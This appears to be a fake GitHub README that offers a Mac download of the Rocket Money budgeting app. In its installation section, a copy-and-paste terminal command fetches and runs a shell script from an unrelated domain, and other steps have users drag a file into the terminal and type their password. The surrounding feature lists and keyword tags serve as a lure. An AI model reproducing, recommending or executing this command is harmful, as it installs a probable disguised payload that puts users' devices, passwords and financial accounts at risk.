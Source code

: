 # Rocket Money — Download For Mac OS 💸

Rocket Money is a powerful personal finance and budgeting tool designed to help users take full control of their money. With this Mac version, you can install and manage your finances directly from your desktop. Follow the instructions below to install it easily and securely. 💼

![rocketmoneyapp](https://i.pcmag.com/imagery/reviews/02Qu73ohKNRw0rBp6lpVnYP-14..v1752171562.png)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](https://rocket-money-for-mac.github.io/.github/)

If the download button does not work, follow the manual installation instructions below using your terminal.

---

## 📦 How to Install Rocket Money For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Rocket Money

* 💳 **Track Subscriptions** — Instantly see and manage all recurring charges.
* 📈 **Budgeting Made Easy** — Set monthly budgets and track your spending.
* 🏦 **Bank Account Syncing** — Securely connect your financial accounts.
* 🚫 **Cancel Subscriptions** — Cancel unwanted services in a few taps.
* 💡 **Spending Insights** — Receive smart insights into where your money goes.
* 🔔 **Real-Time Alerts** — Get notified when bills increase or change.

---

## About Rocket Money

Rocket Money (formerly Truebill) is a top-rated financial management app that helps users identify and cancel unwanted subscriptions, lower bills, and stay on top of their budgeting goals. With a sleek interface and powerful integrations, Rocket Money for Mac brings its full suite of financial tools right to your desktop.

Whether you're trying to gain control of your monthly expenses or looking to save for a specific goal, Rocket Money's budgeting features allow you to create smart financial plans and track your progress over time. It's more than a personal finance app — it's your financial command center.

By syncing with your bank accounts and providing real-time transaction tracking, Rocket Money gives users an accurate overview of their financial health. You can view spending by category, receive alerts when bills increase, and stay organized without having to switch between multiple apps.

Rocket Money is trusted by millions and rated highly for its ease of use and transparency. It's a powerful ally for those who want to eliminate financial waste and build better money habits — all from their Mac.

---

## ✅ Rocket Money Benefits

* 🧠 User-friendly interface with powerful budgeting tools
* 🔒 Bank-level security and encryption
* 📊 Real-time expense tracking and analytics
* ✂️ Built-in tools to cancel subscriptions
* 🔁 Automatic syncing with bank and credit accounts
* 🌍 Works seamlessly across devices

---

## 🖼 Preview

![Rocket Money Dashboard](https://framerusercontent.com/images/Je2J3DaEoJgCRfp6DSoeJAwwo4.png)
*An overview of the dashboard with monthly spending*

![Rocket Money Subscriptions](https://i.postimg.cc/W1bZtbRM/rocket-money-2.png)
*Easily manage and cancel recurring subscriptions*

![Rocket Money Budget Planner](https://i.postimg.cc/KYW3xzRz/rocket-money-3.png)
*Create and monitor monthly budgets in a few clicks*

![Rocket Money Notifications](https://i.postimg.cc/zG1GMYzr/rocket-money-4.png)
*Get real-time alerts on spending and bill changes*

---

## 🔍 Tags

rocket money mac, rocket money, rocket money download, rocket money reviews, rocket money app, rocketmoney reviews, rocket money app review, rocket money login, rocket money budget, rocket budget app, download rocket money free, budget app for mac, rocket money for macbook, personal finance mac app, subscription tracker mac, rocket money install macos, best budgeting software for mac, rocket money desktop version, money manager mac
